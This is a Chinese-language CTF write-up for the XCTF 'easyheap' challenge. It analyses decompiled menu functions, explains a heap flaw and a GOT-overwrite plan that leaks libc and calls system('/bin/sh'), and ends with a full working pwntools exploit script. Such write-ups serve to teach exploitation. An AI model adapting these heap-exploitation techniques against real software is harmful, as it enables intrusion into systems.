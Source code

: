 # XCTF easyheap

### 0x1 分析

这道题主要是用到fastbin attack

看一下安全性：

```shell
[*] './easyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO				#可以更改GOT
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)		#地址是固定的
```

这是一个很常规的菜单程序，有增、删、编辑。

`main()`

```c
// 0x00400b5d
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // eax

  setBuf();
  puts("Welcome to message manager!");
  while ( 1 )                                   // idx == 2
  {
    while ( 1 )
    {
      menu();
      v3 = getNum();
      if ( v3 != 2 )
        break;
      delete();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        edit();
      }
      else
      {
        if ( v3 == 4 )
          exit(0);
LABEL_13:
        puts("Wrong choice!!!");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      add();
    }
  }
}
```

`add()`:

```c
int add()
{
  void **v1; // rbx
  signed int i; // [rsp+8h] [rbp-18h]
  int nbytes; // [rsp+Ch] [rbp-14h]

  for ( i = 0; ptr[i]; ++i )                    // max == 3
    ;
  if ( i > 2 )
    return puts("Too many items!");
  ptr[i] = malloc(0x10uLL);
  puts("How long is this message?");
  nbytes = getNum();
  if ( nbytes > 0x400 )                         // to be -1
    return puts("Too much size!");
  *((_DWORD *)ptr[i] + 2) = nbytes;             // |addr     |
  v1 = (void **)ptr[i];                         // |size|    |
  *v1 = malloc(nbytes);
  puts("What is the content of the message?");
  read(0, *(void **)ptr[i], (unsigned int)nbytes);
  return puts("Add successfully.");
}
```

这里有个漏洞，看了别人的WP才发现的。就是一旦我们申请内存的大小超过`0x400`，就不会分配内存，这个`bss`位置就只有一个堆头，大小是`0x10 + 0x10`。

`delete()`

```c
int delete()
{
  int idx; // [rsp+Ch] [rbp-4h]

  if ( ++deleteCount > 4 )
    return puts("Delete failed.");
  puts("What is the index of the item to be deleted?");
  idx = getNum();
  if ( idx < 0 || idx > 6 || !ptr[idx] )
    return puts("Delete failed.");
  free(*(void **)ptr[idx]);
  free(ptr[idx]);
  ptr[idx] = 0LL;
  return puts("Delete successfully.");
}
```

删除函数把`bss`段相应存储位置也删掉了。UAF用不了了。

`edit()`:

```c
int edit()
{
  int idx; // [rsp+Ch] [rbp-4h]

  if ( ++editCount > 6 )
    return puts("Delete failed.");
  puts("What is the index of the item to be modified?");
  idx = getNum();
  if ( idx < 0 || idx > 6 || !ptr[idx] )
    return puts("Edit failed.");
  puts("What is the content of the message?");
  read(0, *(void **)ptr[idx], *((unsigned int *)ptr[idx] + 2));
  return puts("Edit successfully.");
}
```

当我们删除了块之后，就无法编辑了。

大致思路是这样的。

加入我们先按常规申请一个堆头和堆头指向的一块内存，而且这两块大小可以被放在同一个Fastbin里。

我们把它释放，再只创建一个堆头，`malloc`不会清空内存里的数据，那么这个新的堆头就会仍然指向旧堆头指向的那个内存，只不过指向的是那个内存的`header`。这样就我们通过`edit()`函数来编辑这块内存了。

那么我这么构造成这样：

![](chunk.png)

我们就可以通过`chunk1`来修改`chunk2`，使其指向一个任意空间，比如GOT表。就可以修改GOT。

那么我们首先通过`chunk1`修改`chunk2`使其指向`free`的GOT，我们就可以修改`free`的GOT为`puts`的`plt`。再次通过`chunk1`，修改`chunk2`指向`puts`的GOT，然后删除`chunk2`，我们就可以泄漏出libc。

然后通过相同的办法，控制`chunk1`指向`atoi`，修改`atoi`的GOT为`system`，输入`/bin/sh\x00`，就可以了。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

p = process('./easyheap')
libc = ELF('libc.so.6')
elf = ELF('./easyheap')

free_got = 0x602018
puts_got = 0x602020
atoi_got = 0x602050
puts_plt = elf.plt['puts']

context(arch = 'amd64' , os = 'linux', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']

def debug(p, cmd):
    gdb.attach(p, cmd)
    pause()

def add(size, content, p = p):
    p.sendlineafter("Your choice:", '1')
    p.sendlineafter("How long is this message?", str(size))
    p.sendafter("What is the content of the message", content)

def edit(idx, content, p = p):
    p.sendlineafter("Your choice:", '3')
    p.sendlineafter("What is the index of the item to be modified?", str(idx))
    p.sendafter("What is the content of the message?", content)

def delete(idx, p = p):
    p.sendlineafter("Your choice:", '2')
    p.sendlineafter("What is the index of the item to be deleted?", str(idx))

def single_head(p = p):
    p.sendlineafter("Your choice:", '1')
    p.sendlineafter("How long is this message?", str(2048))

add(0x18, 'aaaa')
delete(0)
single_head()

add(0x18, 'bbbb')
delete(1)
single_head()

add(0x18, 'cccc')

edit(1, 'a' * 0x10 + p64(free_got))
edit(2, p64(puts_plt))
edit(1, 'a' * 0x10 + p64(puts_got))
delete(2)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc_base = puts_addr - libc.symbols['puts']
print 'libc: ', hex(libc_base)
pause()

system_addr = libc_base + libc.symbols['system']
edit(0, 'a' * 0x10 + p64(atoi_got))
edit(1, p64(system_addr))
p.sendafter("Your choice:\n", '/bin/sh\x00')
p.interactive()
```

